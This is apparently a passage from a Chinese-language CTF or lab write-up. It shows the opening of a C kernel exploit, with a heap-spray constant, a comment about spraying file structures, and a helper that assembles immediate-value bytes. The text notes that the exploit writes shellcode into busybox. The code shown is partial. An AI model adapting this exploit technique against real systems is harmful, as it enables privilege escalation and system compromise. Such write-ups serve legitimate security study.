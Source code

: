 ![alt_text](/assets/img/uploads/exit_flag.png)

## exp
该 exp 可能要多运行几次，看到输出确认写 shellcode 到 busybox 之后再执行 `exit`   

```c
#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <poll.h>
#include <pthread.h>
#include <sched.h>
#include <signal.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/mount.h>
#include <sys/msg.h>
#include <sys/shm.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/utsname.h>
#include <sys/wait.h>
#include <sys/xattr.h>

#define SPRAY_NUM 0x300

char tmp[0x1000];
int idx = 0;
// try spraying file structures on the adjacent pages  
int fd;
void push_imm(unsigned imm){
  tmp[idx++] = 10;
  tmp[idx++] = 4;
  tmp[idx++] = imm% 0x100;
  tmp[idx++] = (imm / 0x100)%0x100;
  tmp[idx++] = (imm / 0x10000)%0x100;
  tmp[idx++] = (imm / 0x1000000)%0x100;
}
```